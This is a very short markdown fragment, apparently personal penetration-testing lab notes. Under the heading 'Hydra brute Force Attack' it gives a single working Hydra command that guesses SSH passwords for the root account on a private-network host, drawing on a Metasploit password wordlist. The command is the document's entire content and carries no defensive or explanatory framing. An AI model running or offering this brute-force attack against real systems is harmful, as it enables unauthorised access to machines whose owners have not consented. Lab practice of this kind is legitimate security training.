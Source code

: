 # Hydra brute Force Attack:
   ` => hydra -l root -P /usr/share/wordlists/metasploit/unix_password.txt ssh://192.168.57.134:22 -t 4 -V `
